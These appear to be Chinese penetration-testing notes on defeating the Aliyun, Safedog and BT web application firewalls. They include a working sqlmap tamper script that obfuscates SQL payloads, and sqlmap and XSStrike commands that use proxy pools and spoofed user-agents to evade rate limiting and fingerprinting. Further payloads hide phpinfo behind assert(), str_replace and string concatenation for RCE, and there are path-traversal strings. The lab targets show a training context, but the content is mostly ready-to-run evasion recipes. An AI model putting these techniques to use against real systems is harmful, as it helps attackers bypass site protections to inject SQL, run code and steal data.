


# 思维导图


阿里云  + safedog  + BT waf


## SQL 注入

### 注入方式

#### 手工注入

简单、不需要考虑CC 防护

#### 工具注入

sqlmap   速度很快，会触发CC防御

safedog CC 绕过

user-agent

--delay

代理池：换ip


CC 拦截绕过

user-agent：伪装成爬虫白名单

代理池：每秒钟换ip

延时设置： --delay


#### aliyun + safedog 演示

sqlmap工具+代理 +tamper （自写注入规则）

--tamper

rdog.py

```python
#!/usr/bin/env python

"""
Copyright (c) 2006-2022 sqlmap developers (https://sqlmap.org/)
See the file 'LICENSE' for copying permission
"""


from lib.core.enums import PRIORITY

__priority__ = PRIORITY.NORMAL

def tamper(payload,**kwargs):
    retVal =""
    if payload:
        payload = payload.replace("union","%23a%0aunion")
        payload = payload.replace("select","/*!4457select*/")
        payload = payload.replace("%20","%23a%0a")
        payload = payload.replace(" ","%23a%0a")
        payload = payload.replace("database()","database%23a%0a()")
    return payload

```


```python
python sqlmap.py -u "http://test.xiaodi8.com/sqlilabs/Less-2/?id=1" --proxy="http:tps123.kdlapi.com:15818" --tamper="waf-dog.py"
```


仅仅这样是不行，

因为使用的是sqlmap工具，user-agent中会有明显的sqlmap的标识，阿里云，以及bt，safedog都有指纹识别，会


所以还要修改 user-agent


模仿用户

使用自己的user-agent

```python
python sqlmap.py -u "http://test.xiaodi8.com/sqlilabs/Less-2/?id=1" --proxy="http:tps123.kdlapi.com:15818" --tamper="waf-dog.py" --user-agent="Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:99.0) Gecko/20100101 Firefox/99.0"
```

也可以使用sqlmap的代理随机设置

--random-agent

```
python sqlmap.py -u "http://test.xiaodi8.com/sqlilabs/Less-2/?id=1" --proxy="http:tps123.kdlapi.com:15818" --tamper="waf-dog.py" --random-agent
```


 **sqlmap工具+代理 +tamper+user-agent**  就可以绕过

代理：绕过传cc

tamper：注入规则

user-agent：修改ua，防止匹配到工具的指纹！

**效果**


#### aliyun + safedog + BT 演示

BT 开启


BT过滤规则


BT 过滤  /* 


把   /* 去掉，没有拦截


绕过宝塔过滤/*规则


%00截断 绕过


--tamper 过BT（增加%00）


## 文件上传

1.php 截断 参考前面上传 waf 绕过 payload

换行截断


## XSS 跨站

利用 XSStrike 绕过 加上--timeout 或--proxy 绕过 cc

跑就完事儿了！

```python
xsstrike.py -u "目标网址" --timeout x  延时
xsstrike.py -u "目标网址" --proxy  代理地址
```

其他集合

## RCE

aliyun + safedog +BTwaf

目标pikachu靶场rce漏洞

源码


尝试


被拦截


拦截日志，触发了phpinfo（  


模拟post 请求 传递参数txt和submit

```python
txt=echo 123&submit=%E6%8F%90%E4%BA%A4ce
```

可行


```python
txt=phpinfo()&submit=%E6%8F%90%E4%BA%A4ce
```

被拦截


#### 本地测试




```python
x.php?x=base64-decode()
```


结果是空白，没有显示！


为什么空白？原因是没有输出


#### 服务器测试


被防火墙拦截


尝试算法可逆编码算法：

base64  

url 编码

进制编码等

※

#### ※※可逆算法绕过


没有显示，为什么？


没有显示是因为phpinfo（）没有被执行，加个assert（）函数就行


#### ※※替换绕过

```python
txt=$y=str_replace('x','','pxhpxinxfo()');assert($y);&submit=%E6%8F%90%E4%BA%A4ce
```

pxhpxinxfo() 绕过防护规则，phpinfo（），然后把x 替换为空，达到绕过效果！


### 各种绕过尝试

#### ※※拼接+替换绕过

```python
txt=$X='asse';$xx='rt';$xxx=$x.$xx;$y=str_replace('x','','pxhpxinxfo()');assert($y);&submit=%E6%8F%90%E4%BA%A4ce
```



#### ※※更改传参方式

GET被拦截 


宝塔日志


##### REQUERST 

换一个传参方式 为REQUERST ，就绕过了。（毕竟网站要正常运行，一些正常的功能是不能影响的，还是会有一些规则是可以利用的。有这些就够了！足以绕过）


## 文件包含

：没什么好说的就这几种
..\ ..../ ..\.\等